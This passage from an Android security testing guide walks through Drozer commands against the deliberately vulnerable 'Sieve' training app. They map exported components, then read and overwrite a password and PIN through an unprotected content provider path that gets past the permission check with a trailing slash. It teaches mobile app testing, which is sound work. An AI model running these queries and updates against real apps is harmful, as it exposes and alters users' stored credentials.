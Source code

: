 ### Dynamic Analysis

You can enumerate IPC components with Drozer. To list all exported IPC
components, use the module `app.package.attacksurface`:

```bash
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

#### Content Providers

The "Sieve" application implements a vulnerable content provider. To list the
content providers exported by the Sieve app, execute the following command:

```bash
dz> run app.provider.finduri com.mwr.example.sieve
Scanning com.mwr.example.sieve...
content://com.mwr.example.sieve.DBContentProvider/
content://com.mwr.example.sieve.FileBackupProvider/
content://com.mwr.example.sieve.DBContentProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords/
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.FileBackupProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Keys
```

Content providers with names like "Passwords" and "Keys" are prime suspects for
sensitive information leaks. After all, it wouldn't be good if sensitive keys
and passwords could simply be queried from the provider!

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys
Permission Denial: reading com.mwr.example.sieve.DBContentProvider uri content://com.mwr.example.sieve.DBContentProvider/Keys from pid=4268, uid=10054 requires com.mwr.example.sieve.READ_KEYS, or grantUriPermission()
```

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password          | pin  |
| SuperPassword1234 | 1234 |
```

This content provider can be accessed without permission.

```bash
dz> run app.provider.update content://com.mwr.example.sieve.DBContentProvider/Keys/ --selection "pin=1234" --string Password "newpassword"
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password    | pin  |
| newpassword | 1234 |
```
